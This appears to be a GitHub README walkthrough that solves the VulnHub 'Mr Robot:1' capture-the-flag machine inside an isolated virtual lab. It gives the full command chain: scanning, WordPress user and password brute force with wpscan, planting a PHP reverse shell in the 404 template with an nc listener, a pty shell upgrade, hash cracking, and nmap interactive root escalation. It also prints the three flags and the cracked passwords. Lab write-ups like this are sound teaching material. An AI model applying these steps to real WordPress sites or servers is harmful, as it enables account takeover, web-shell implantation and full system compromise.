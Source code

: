 [![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)](#) 
[![Virtual Lab](https://img.shields.io/badge/VirtualBox-183A61?style=for-the-badge&logo=virtualbox&logoColor=white)](#) 
[![VulnHub](https://img.shields.io/badge/VulnHub-26A69A?style=for-the-badge&logo=v&logoColor=white)](https://www.vulnhub.com) 
[![Mr Robot:1](https://img.shields.io/badge/Mr_Robot_1-D32F2F?style=for-the-badge&logo=robots&logoColor=white)](https://www.vulnhub.com/entry/mr-robot-1,151/) 
[![Nmap](https://img.shields.io/badge/Nmap-4CAF50?style=for-the-badge&logo=n&logoColor=white)](https://nmap.org) 
[![Wpscan](https://img.shields.io/badge/Wpscan-F44336?style=for-the-badge&logo=wordpress&logoColor=white)](https://github.com/wpscanteam/wpscan) 
[![Dirsearch](https://img.shields.io/badge/Dirsearch-FF9800?style=for-the-badge&logo=search&logoColor=white)](https://github.com/maurosoria/dirsearch) 
[![Netcat](https://img.shields.io/badge/Netcat-9E9E9E?style=for-the-badge&logo=nc&logoColor=white)](https://nc110.sourceforge.io/)  [![Python](https://img.shields.io/badge/Python-3776AB?style=for-the-badge&logo=python&logoColor=white)](https://www.python.org)  [![Bash](https://img.shields.io/badge/Bash-4EAA25?style=for-the-badge&logo=gnubash&logoColor=white)](https://www.gnu.org/software/bash/)  [![WordPress](https://img.shields.io/badge/WordPress-21759B?style=for-the-badge&logo=wordpress&logoColor=white)](https://wordpress.org)  
[![Reverse Shell](https://img.shields.io/badge/Reverse_Shell-000000?style=for-the-badge&logo=linux&logoColor=white)](#)  [![CrackStation](https://img.shields.io/badge/CrackStation-5D4037?style=for-the-badge&logo=lock&logoColor=white)](https://crackstation.net)  

# Walkthrough Mr Robot:1

## Setting up the machine
The machine is set up in a closed environment [internal adapter] in ther virtual machine enabling communication only through that adapter.

### Setup a Virtual Lab
1. Setup the Network to be internal adapter and name it `Test-network`.
2. In the command prompt in the windows go to the virtual Box directory 
```cmd
cd "\Program Files\Oracle\VirtualBox"
```
3. Now type in
```cmd
vboxmanage dhcpserver add --network=Test-network --server-ip=10.38.1.1 --lower-ip=10.38.1.110 --upper-ip=10.38.1.120 --netmask=255.255.255.0 --enable
```
This enables the dhcp server virtually and allocates the ip address for range 10.38.1.110-120.

4. Now you have to enable another adapter for your kali linux machine having connection with the internal adapter `Test-network`.
![Screenshot 1](\pictures\Screenshot 2024-12-01 172343.png "Screenshot of the setup")
5. Boot up Both the machines.
 



--
## Guide:
### Key-1-of-3
1. Run the below command to know the available devices.
```bash
sudo arp-scan -l 
```
![ifconfig1](\pictures\2 "ifconfig")
You can see my ip address.

![arp-scan -l](\pictures\1 "ifconfig")
Now we know the Ip addresses.
### Ip-addresses :
| Ip address  | Associated device |
| ------------- |:-------------:|
| 10.38.1.112      | Kali-VM     |
| 10.38.1.113      | Mr_Robot     |

2. Run the command   
```bash
nmap -p- -A 10.38.1.113 -oN scan.txt
``` 
![nmap](\pictures\3 "nmap -p- -A 10.38.1.113 -oN scan.txt")
Here is the screenshot of scan report.

3. From the scan, Port 80 is open indicating an active web server in there
4. Go to the Browser and try to open ther site.
5. Since this is a web server, we can see whether there are any hidden directories in there
```bash
dirsearch -u http://10.38.1.113/
```
![Dirsearch](\pictures\4 "Dirsearsh result")

This image shows the output of dirsearch which has successfull pages [code = 200]
6.By examining all the sites, we can see the key in robots.txt; `http://10.38.1.113/robots.txt`.
![Robots.txt](\pictures\4 "Robots")

7. By going to the site `http://10.38.1.113/key-1-of-3.txt` we can see the 1st key
```
073403c8a58a1f80d943455fb30724b9
```

### Key-2-of-3.txt

1. In the same `http://10.38.1.113/robots.txt`, we find a `.dic` file containing large number of elements 
use `wc <filename>` to see the number of entries in the file.
2. We can observe that the words are repeated and in the file.
3. Use the command below, to sort it and write to another file
```bash
cat fsocity.dic | sort -u > sorted_fsocity.txt
```
4. If we have a look at the directories, we can notice a wordpress login page
![Dirsearch-wplogin](\pictures\6 "wordpress").
5. Open the link in the browser - `http://10.38.1.113/wp-login.php`.
6. We have a login page and a wordlist.
7. use `wpscan` to enumirate for the available users.
```bash
wpscan -v --url http://10.38.1.113/wp-login.php --enumerate --users-list sorted_fsocity.txt -o wpscan.txt
```
![wp-users](\pictures\7 "wordpress- users enumirated and found users").
Users available in the server

8. Password enumiration : 
```bash
wpscan -v --url http://10.38.1.113/wp-login.php -U "elliot" -P sorted_fsocity.txt -o password_elliot.txt
```
![Wp - password](\pictures\8 "Password for the user elliot").
Password for the user elliot.

9. Now login to the user using the credentilas we got `Username: elliot, Password: ER28-0652` 
10. Navigate to the `appearance -> editor -> 404 Template*`
11. Here we shall place a script that opens a shell [reverse shell]
12. Type in `locate php-reverse` and copy the file named `/usr/share/laudanum/wordpress/templates/php-reverse-shell.php` to your `pwd`.
13. Edit the ip address and portnumber to Ip = your kali linux ip address and port number = default https port number, In  my case its `IP: 10.38.1.112` & `Port: 443`.
14. Now open a new terminal instance `ctrl+shift+T` and type in the below command to start listining to the `Port 443`.
```bash
sudo nc -lvnp 443
```
15. Once yoy started this, go to the browser and type in any name followed by the ipaddress of the server
```web
For example : http://10.38.1.113/hi
```
![shell](\pictures\9 "reverse shell")
This results a forbidden page and our script is there in forbidden page and it gets executed. leading to `daemon` shell behind.

16. Here the choice of template made in `10th step` is not to be only `404 template`. It can be any of the listed. but redirecting to a forbidden page is a way more easier that redirecting to any particular page to `execute` the script. Any page that has a `client-side` error returns `404` and makes executing the script easy.
17. Now navigate to `cd home/robot` to find a `Key-2-of-3.txt` owned by user, `robot` and a `password.raw-md5` hash file containing the hash of the robot password saying, `robot:c3fcd3d76192e4007dfb496cca67e13b`
18. Decrypting the hash using ![crackstation](https://crackstation.net/) , we get the password as `abcdefghijklmnopqrstuvwxyz`
19. Type in `sudo su` -> this results in `su: must be run from a terminal`.
```Explaination
This is because the demon by default has no shell;
`$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
`
The above output says that.
since we dont have a shell we cannot switch users.
```
20. execute the below script in ther shell to invoke a bash shell for the user `daemon`
```bash
python -c 'import pty;pty.spawn("/bin/bash")'

```
21. Now we have a shell and we can login using `sudo su robot` and the `password : abcdefghijklmnopqrstuvwxyz`
22. Now we can see the contents of the file `Key-2-of-3.txt`
23. `Key-2-of-3.txt : 822c73956184f694993bede3eb39f959`

### Key-3-of-3.txt:

1. For this key we use the interactive mode of nmap which inturn can lead to a root shell 
![nmap vulnerability](https://vk9-sec.com/nmap-privilege-escalation/)
```Previlage Esclation 
In a interactive mode if we type in `!/bin/bash` we get the bash shell 
The maximum previlage is root, Nmap runnig in highest previlage causes this.
```
2. nmap --interactive
    1. Runs the nmap with higher previlage [previlage escalation]
    2. In an interactive mode if "!bash" is typed in, then the shell gets opened with the previlage of the interacting software.
    3. his results in higher previlage shell out.
    4. If !bash is typed in
        results, a current user owned bash shell
    5. If !sudo /bin/bash is typed in,
        results in saying
                `nmap> !sudo /bin/bash
                !sudo /bin/bash
                [sudo] password for robot: abcdefghijklmnopqrstuvwxyz
                robot is not in the sudoers file.  This incident will be reported.`

3. Robot is not in the sudoers file.

4. However, we are able to invoke a shell 
5. Since sh is a root owned shell by default, try
    1. `!sh` [this is a root shell by default].
        this resulted in ,
        nmap> !sh
        !sh
        `#` whoami
        `root`
6. Finally we got the `root` shell so we can see the contents of the root and there you go `cat /root/key-3-of-3.txt` and the key is `04787ddef27c3dee1ee161b21670b4e4`



















